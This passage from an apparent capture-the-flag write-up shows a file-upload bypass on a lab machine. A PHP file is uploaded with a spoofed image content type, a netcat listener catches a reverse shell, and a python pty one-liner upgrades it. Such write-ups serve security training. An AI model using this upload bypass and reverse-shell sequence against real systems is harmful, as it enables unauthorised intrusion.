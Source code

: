 ```
```

Note we specify the content type header in our submission as `Content-Type: application/x-php`

Lets replay with the Request Editor Feature in ZAP it by right clicking on the data and editing the header as:

```
-----------------------------6880877471789511041406832871
Content-Disposition: form-data; name="file"; filename="evil.php"
Content-Type: image/png

```

This time I get the following response data:

```
Upload: evil.php<br />Type: image/png<br />Size: 2.962890625 Kb<br />Upload Completed. <br />Please refresh to see the new screenshot.
```

Looks like the server doesn't restrict the upload types.

I set up a listener on my Linux with:

``` bash
nc -nvlp 1337
```

Right click the "no image found" image url and get a shell:

```
listening on [any] 1337 ...
connect to [10.10.14.34] from (UNKNOWN) [10.10.10.6] 48695
```

This times out after 20 seconds because of the ZAP proxy settings:

```
Failed to read http://10.10.10.6/torrent/upload/723bc28f9b6f924cca68ccdff96b6190566ca6b4.php within 20 seconds, check to see if the site is available and if so consider adjusting ZAP's read time out in the Connection options panel.
```

I disable the proxy and shutdown ZAP as its done its job and re-trigger the connection.

With this access I have a low priv shell and can claim the user flag.

``` bash
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


## Priv Escalation

I try to upgrade to a bash shell with python:

```
/usr/bin/python -c 'import pty; pty.spawn("/bin/bash")'
```
